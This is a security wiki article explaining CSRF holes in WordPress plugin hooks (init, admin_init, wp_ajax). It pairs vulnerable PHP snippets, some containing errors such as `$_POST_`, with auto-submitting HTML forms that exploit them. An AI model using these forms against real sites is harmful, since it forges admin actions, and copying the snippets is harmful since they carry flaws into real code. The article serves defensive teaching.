 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/wordpress-functions/#current_user_can) function, and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/wordpress-functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/wordpress-functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/wordpress-functions/#check_ajax_referer) functions.

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

In order to exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST_["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }

    }
}
```

In order to exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data");

function update_post_data(){
    if(isset($_POST_["update"])){
        $post_id = get_post($_GET["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

In order to exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data?id=1" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```